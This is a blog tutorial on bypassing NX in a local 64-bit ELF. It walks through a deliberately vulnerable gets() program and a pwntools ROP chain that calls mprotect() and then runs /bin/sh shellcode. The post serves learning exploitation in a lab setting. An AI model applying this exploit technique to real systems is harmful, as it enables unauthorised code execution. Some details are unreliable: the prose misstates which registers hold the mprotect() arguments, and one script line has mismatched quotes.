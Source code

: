 ```yaml
---
layout: post
title:	"ELF x64 Bypass NX with mprotect()"
date:	2020-08-25
categories:
    - blog
tags:
    - binary
---
```



In this blogpost, I’ll explain how to bypass **NX** using **mprotect()** in order to make the stack executable.

For this purpose, I created the following vulnerable C program.

~~~
#include <stdio.h>

int main(int argc, char **argv){

    char input[256];
    gets(input);

    printf("%s", input);
    printf("\n");
    return 0;
}
~~~

This is the gcc command to compile the executable with **NX** enabled and **PIE** disabled.

~~~
gcc -o chall chall.c -fno-stack-protector -no-pie -Wl,-z,noexecstack
~~~

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img1.png)

**ASLR** should be disabled, how we can see **NX** is enabled.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img2.png)
![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img3.png)

Let’s run the executable in gdb. In order to trigger the buffer overflow we will give 300 ‘A’s as input.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img4.png)

As we expected, the **RBP** register is overwritten with our ‘A’s.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img5.png)

By using pattern_create, we can generate a payload in order to calculate the exact offset that overwrite the **RIP** register. Because the executable is a 64 bit ELF, the maximum address is **0x7FFFFFFFFFFFF**, we can overwrite the **RIP** register by adding 8 byte to the **RBP** register.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img6.png)

The **RBP** register is overwritten by the value **0x3769413669413569**.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img7.png)

Using pattern_offset, we can calculate the offset.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img8.png)

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img9.png)

We successfully overwrite the **RIP** register with the value **0x0000424242424242**.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img10.png)

Because NX is enabled, our stack is not executable, we can use the **[mprotect()](https://www.man7.org/linux/man-pages/man2/mprotect.2.html)** function in order to make the stack executable.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img11.png)

As reported in the documentation:

~~~
mprotect() changes the access protections for the calling process's memory pages containing any part of the address range in the interval [addr, addr+len-1].  addr must be aligned to a page boundary.

If the calling process tries to access memory in a manner that violates the protections, then the kernel generates a SIGSEGV signal for the process.

prot is a combination of the following access flags: PROT_NONE or a bitwise-or of the other values in the following list: 

PROT_NONE: The memory cannot be accessed at all.

PROT_READ: The memory can be read.

PROT_WRITE: The memory can be modified.

PROT_EXEC: The memory can be executed.

...
~~~

We will set address to **0x7fffffffe000** (I take it from gdb, our 'A's are at  address **0x7fffffffe168**), the value **0x1000** as length and the protection to **RWX**, which is **0x7**.

The calling convention for ELF 64 is the following: 
* Arguments in RDI, RSI, RDX, RCX, R8, R9 
* Return Value in RAX 

So we need to put the stack address in the **RDI** register, the length in the **RDX** register and the value **0x7** in the **RCX** register.

Using gdb, it is possible to find the **mprotect()** address.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img12.png)

Using ROPgadget, we can find the gadgets we need to put the values into the registers.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img13.png)

There is no “pop rdx” instruction in our binary, we can look for it into the libc.

Using the vmmap command, we can see the libc address.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img14.png)

And with ROPgadget, we can find the offset of the gadget.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img15.png)



Using the following exploit, we can use the “attach” command into gdb in order to debug the process and find our shellcode address.

~~~
from pwn import *

p = process("./chall")

libc_address = 0x00007ffff7df2000

payload = ""
payload += "A" * 264
payload += p64(0x00000000004011fb) # pop rdi ; ret
payload += p64(0x7fffffffe000) # stack address
payload += p64(0x00000000004011f9) # pop rsi ; pop r15 ; ret
payload += p64(0x1000) # size
payload += p64(0xAAAAAAAAAAAAAAAA) #garbage for r15
payload += p64(libc_address+0x000000000003fa6a) # pop rdx ; ret
payload += p64(0x7) #mode
payload += p64(0x7ffff7eea1e0) # mprotect address
payload += “B” * 8
payload += "C” * 200
raw_input()

p.sendline(payload)
p.readline()
p.interactive()
~~~

Let's run the script, use the command "attach 12889" in gdb and then let the execution continue.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img16.png)

As we can see, our ‘C’s start from **0x7fffffffe210**.
Let’s update our script with a shellcode and try to pop a bash shell, after the **mprotect()**, our stack will be executable.

~~~
from pwn import *

p = process("./chall")

shellcode = "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"
libc_address = 0x00007ffff7df2000

payload = ""
payload += "A" * 264
payload += p64(0x00000000004011fb) # pop rdi ; ret
payload += p64(0x7fffffffe000) # stack address
payload += p64(0x00000000004011f9) # pop rsi ; pop r15 ; ret
payload += p64(0x1000) # size
payload += p64(0xAAAAAAAAAAAAAAAA) #garbage for r15
payload += p64(libc_address+0x000000000003fa6a) # pop rdx ; ret
payload += p64(0x7) #mode
payload += p64(0x7ffff7eea1e0) # mprotect address
payload += p64(0x7fffffffe210) # shellcode address
payload += shellcode

p.sendline(payload)
p.readline()
p.interactive()
~~~

And yes, it works.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img17.png)

